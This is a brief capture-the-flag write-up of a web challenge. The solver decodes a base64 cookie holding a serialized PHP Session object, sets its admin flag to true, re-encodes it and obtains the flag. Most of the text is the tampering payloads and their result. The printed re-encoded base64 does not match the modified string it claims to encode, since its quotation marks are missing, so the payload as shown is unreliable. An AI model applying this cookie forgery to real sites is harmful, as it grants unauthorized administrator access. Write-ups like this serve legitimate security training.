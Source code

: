 ### Solved by z0rex

"Not a Pastry" was a web challenge worth 40 points.

> We've discovered a mysterious website. Can you retrieve the flag? 

Looking at the headers I saw a cookie name `not_a_pastry` which contained what
appeard to be a base64 encoded string.

`Tzo3OiJTZXNzaW9uIjoyOntzOjEwOiJzdGFydF90aW1lIjtpOjE0NjAyNTA1ODI7czo1OiJhZG1pbiI7YjowO30=`

which, when decoded, translated to the following

`O:7:"Session":2:{s:10:"start_time";i:1460250582;s:5:"admin";b:0;}`

So I modified the decoded string to this...

`O:7:"Session":2:{s:10:"start_time";i:9999999999;s:5:"admin";b:1;}"`

... and encoded it back to base64

`Tzo3OlNlc3Npb246Mjp7czoxMDpzdGFydF90aW1lO2k6OTk5OTk5OTk5OTtzOjU6YWRtaW47YjoxO30K`

Now refreshing the page displayed the following text

```
Congratulations!
Your flag is: good_ole_fashioned_homemade_cookies
```

Flag: `good_ole_fashioned_homemade_cookies`